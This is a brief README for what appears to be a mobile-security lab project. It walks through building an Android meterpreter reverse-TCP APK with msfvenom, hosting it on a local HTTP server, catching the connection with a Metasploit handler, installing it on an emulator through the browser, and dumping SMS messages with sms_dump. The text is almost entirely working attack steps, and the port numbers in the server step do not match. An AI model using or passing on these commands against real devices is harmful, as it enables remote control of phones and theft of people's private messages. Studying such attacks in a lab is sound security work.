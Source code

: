 # 4MOCSecuMobile

## Generate APK

> msfvenom -p android/meterpreter/reverse_tcp LHOST=your_ip LPORT=8888 -f raw -o name_apk.apk

## Server local

> python -m SimpleHTTPServer 4433
> To access it : your_ip:4443
> Put apk in folder or you started the server

## Metasploit

> Install metasploit
> Start it with msfconsole
> handler : use exploit/multi/handler
> Load payload : set payload android/meterpreter/reverse_tcp
> Configure Host + Port : set LHOST your_ip , set LPORT 8888
> Launch the payload : exploit
> sms_dump if exploit is a succesful.

## Emulator

> Start it
> Connect you to chrome
> Tap local server adress
> Click on APK and it should to donwload it
> It will have to dowload it

## Application

> tap in console make moveFile to move the txt if you have completed to generate the txt file
> Start the application and you will need to see the sms of the txt file


